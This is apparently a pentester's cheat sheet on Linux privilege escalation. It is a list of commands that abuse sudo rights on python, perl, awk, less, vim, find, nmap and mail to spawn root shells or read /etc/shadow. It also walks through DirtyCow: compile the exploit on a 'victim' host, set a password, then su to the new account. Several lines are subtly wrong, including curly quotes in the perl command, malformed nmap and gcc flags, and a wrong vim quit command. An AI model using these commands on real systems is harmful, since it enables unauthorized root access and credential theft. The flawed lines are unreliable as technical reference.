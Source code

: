 # Linux Privesc

## Sudoers - Privesc

#### Exhaustive list
https://gtfobins.github.io/

```
➤ Python
sudo -u root /usr/bin/python
>>> from subprocess import call
>>> call(['/bin/bash'])

➤ Perl
sudo -u root /usr/bin/perl -e ‘`/bin/bash`’

➤ CP + Chmod
sudo -u root /bin/cp exploit exploit
sudo -u root /bin/chmod +xs exploit
./exploit

➤ Awk
awk 'BEGIN {system("/bin/bash")}'

➤ Less
• Solution 1 - read a file
sudo -u root /usr/bin/less /etc/shadow
 
• Solution 2 - create a file
sudo -u root /usr/bin/less 
then insert the following command :
!/bin/bash

➤ Vim
sudo -u victim /usr/bin/vim
then write the following command (same way to quit vim :!q):
:!/bin/bash

➤ Find
sudo -u root /usr/bin/find /bin -name "bash" -exec {} \;

➤ Bash
sudo -u root /bin/bash

➤ Nmap
sudo -u nmap –interactive
nmap>!bash
or
nmap>!sh

➤ Mail
sudo mail --exec='!/bin/bash'
```

## Crontab - Privesc

## DirtyCow

• https://dirtycow.ninja/

• https://github.com/FireFart/dirtycow/blob/master/dirty.c


```
➤ 1. Upload the exploit on the victim

➤ 2. Compile the exploit
gcc -pthread dirty.c -O dirty -lcrypt
chmod +x dirty

➤ 3. exploit it
./dirty
Please enter the new password: lexiswashere

➤ 4. Privesc
su firefart
Password: lexiswashere

Note: if the 'su : must be run from a terminal' error appear, upgrade tty 
python -c 'import pty; pty.spawn("/bin/sh")'
```
